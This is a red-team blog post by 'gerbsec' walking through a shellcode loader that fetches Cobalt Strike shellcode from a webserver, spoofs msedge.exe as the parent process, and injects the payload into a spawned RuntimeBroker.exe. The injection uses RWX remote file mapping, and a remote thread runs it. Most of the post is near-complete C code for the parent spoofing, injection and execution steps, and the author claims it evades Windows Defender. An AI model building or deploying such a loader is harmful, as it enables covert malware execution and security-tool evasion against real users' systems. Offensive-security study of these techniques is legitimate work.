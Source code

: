 ```yaml
---
layout: post
category: blog
---
```

# Adopted Maps: The PPID Spoofing Conundrum

hey its gerbsec back again with more heat. i've gotten into maldev as part of my red team journey that i have been documenting. specifically different techinques i can make my beacon hide better. for starters, we need to write our own loaders! this is where gerbload (name is in the works) comes in handy!

### what is gerbload?

[gerbload](https://github.com/gerbsec/MalDev/blob/main/README.md) is a shellcode loader i wrote that functions as a orphanage! essentially it'll pull your shellcode from a webserver, find a suitable parent for your orphan child process. match them up and inject your shellcode! this will spoof the current directory, the arguments, the parent and the process where our shellcode will reside! as of right now this bypasses defender (ok i get it, not a big deal). i have not tested against edr.

### lets walk through the code

#### download payload

the first part of the code involves downloading the payload from a url and storing. in this case i'm using cobaltstrike shellcode. i should add that i have artifact kit, process inject kit and sleep mask kit all enabled and customized ahead of time. (maybe i'll do some blog posts on those later?)

```c
BOOL GetPayloadFromUrl(LPCWSTR szUrl, PBYTE* pPayloadBytes, SIZE_T* sPayloadSize) {
<SNIP>
}
```

this takes 3 arguments: the URL, a Size variable to store the size of the payload and a PBYTE variable to store the actual bytes of the shellcode. 

the usage utilizes wininet.h, its quite a simple request with not much opsec being considered here.
#### spoofing the ppid

now that we have the payload stored in memory, let's make room for it. first of all we need a parent process. we can use a lot of different processes but for our case i've used `msedge.exe` mainly because the odds of it running on a windows 10/11 machine is almost 100% nowadays. 

P.S. this only works on normal priv processes.

from there we'll utilize GetRemoteProcessHandle function that under the hood uses CreateToolhelp32Snapshot:
```c
BOOL GetRemoteProcessHandle(IN LPWSTR szProcessName, OUT DWORD* dwProcessId, OUT HANDLE* hProcess) {
<SNIP>
	// Takes a snapshot of the currently running processes 
	hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
	if (hSnapShot == INVALID_HANDLE_VALUE) {
		printf("\t[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}
	// Retrieves information about the first process encountered in the snapshot.
	if (!Process32First(hSnapShot, &Proc)) {
		printf("\n\t[!] Process32First Failed With Error : %d \n", GetLastError());
		goto _EndOfFunction;
	}
	<SNIP>
	 while (Process32Next(hSnapShot, &Proc));
```

we'll loop over the processes until we find msedge, from there we'll utilize it to create the process.

first we'll create the target process path:

```c
// making the target process path
sprintf(lpPath, "%s\\System32\\%s", WnDr, lpProcessName);

// making the `lpCurrentDirectory` parameter in CreateProcessA
sprintf(CurrentDir, "%s\\System32\\", WnDr);
```

from there we can specifiy the attributes to the process we're creating:
```c
// this will fail with ERROR_INSUFFICIENT_BUFFER / 122
InitializeProcThreadAttributeList(NULL, 1, NULL, &sThreadAttList);

// allocating enough memory
pThreadAttList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), HEAP_ZERO_MEMORY, sThreadAttList);
if (pThreadAttList == NULL) {
	printf("[!] HeapAlloc Failed With Error : %d \n", GetLastError());
	return FALSE;
}

// calling InitializeProcThreadAttributeList again passing the right parameters
if (!InitializeProcThreadAttributeList(pThreadAttList, 1, NULL, &sThreadAttList)) {
	printf("[!] InitializeProcThreadAttributeList Failed With Error : %d \n", GetLastError());
	return FALSE;
}

if (!UpdateProcThreadAttribute(pThreadAttList, NULL, PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, &hParentProcess, sizeof(HANDLE), NULL, NULL)) {
	printf("[!] UpdateProcThreadAttribute Failed With Error : %d \n", GetLastError());
	return FALSE;
}

// setting the `LPPROC_THREAD_ATTRIBUTE_LIST` element in `SiEx` to be equal to what was
// created using `UpdateProcThreadAttribute` - that is the parent process
SiEx.lpAttributeList = pThreadAttList;
```

finally we'll goahead and use CreateProcessA to create the process:
```c
if (!CreateProcessA(
	NULL,
	lpPath,
	NULL,
	NULL,
	FALSE,
	EXTENDED_STARTUPINFO_PRESENT,
	NULL,
	CurrentDir,
	&SiEx.StartupInfo,
	&Pi)) {
	printf("[!] CreateProcessA Failed with Error : %d \n", GetLastError());
	return FALSE;
}
```

at this point we should have a process that (in our case) is "Runtimebroker.exe -embedding" running under msedge.exe (lol). We successfully found a parent for our orphan! 

#### injecting the payload

now that we have a process running, we can inject our shellcode. we can do this many ways. if we wanted to use an early bird technique we just have to put the process we created in a suspended state. this could be done many ways, one way is to put it as a DEBUG_PROCESS state and the debugger is our current process. a slightly more simple and more opsec friendly way is to inject without the use of private memory. we'll do this using remote mapping injection. 

```c
BOOL RemoteMapInject(IN HANDLE hProcess, IN PBYTE pPayload, IN SIZE_T sPayloadSize, OUT PVOID* ppAddress) {

	BOOL		bSTATE				= TRUE;
	HANDLE		hFile				= NULL;
	PVOID		pMapLocalAddress	= NULL,
				pMapRemoteAddress	= NULL;


	// create a file mapping handle with `RWX` memory permissions
	// this doesnt have to allocated `RWX` view of file unless it is specified in the MapViewOfFile/2 call  
	hFile = CreateFileMapping(INVALID_HANDLE_VALUE, NULL, PAGE_EXECUTE_READWRITE, NULL, sPayloadSize, NULL);
	if (hFile == NULL) {
		printf("\t[!] CreateFileMapping Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

	// maps the view of the payload to the memory 
	// FILE_MAP_WRITE are the permissions of the file (payload) - 
	// since we only need to write (copy) the payload to it
	pMapLocalAddress = MapViewOfFile(hFile, FILE_MAP_WRITE, NULL, NULL, sPayloadSize);
	if (pMapLocalAddress == NULL) {
		printf("\t[!] MapViewOfFile Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}
	
	memcpy(pMapLocalAddress, pPayload, sPayloadSize);

	// maps the payload to a new remote buffer (in the target process)
	// it is possible here to change the memory permissions to `RWX`
	pMapRemoteAddress = MapViewOfFile2(hFile, hProcess, NULL, NULL, NULL, NULL, PAGE_EXECUTE_READWRITE);
	if (pMapRemoteAddress == NULL) {
		printf("\t[!] MapViewOfFile2 Failed With Error : %d \n", GetLastError());
		bSTATE = FALSE; goto _EndOfFunction;
	}

_EndOfFunction:
	*ppAddress = pMapRemoteAddress;
	if (hFile)
		CloseHandle(hFile);
	return bSTATE;
}
```

here we create a filemapping with rwx, then we'll map the view of the payload to the memory with file_map_write permissions. Finally we'll use MapViewOfFile2 to maps the payload on the remote buffer and change its permissions to rwx. 

#### executing the shellcode

we're practically done now, all is left is to execute the shellcode in the process we have injected it, we can do this in many ways but for simplicity we can do this with CreateRemoteThread with the process and address:

```
hThread = CreateRemoteThread(hProcess, NULL, NULL, pAddress, NULL, NULL, NULL);
if (hThread == NULL)
	printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());

return 0;
```

annnnndd we get our beacon!

![](assets/images/2024-07-31-adopted-maps-image-1.png)

as we also see the process its running as is RuntimeBroker, if we check process hacker we can see the parent process and current directory are set:

![](assets/images/2024-07-31-adopted-maps-image-2.png)

Finally the mandatory defender screenshot:

![](assets/images/2024-07-31-adopted-maps-image-3.png)

thats all i had today. i'm sure theres tons of typos and such, so i'll be sure to go back and edit this as i reread it....

best,
gerbsec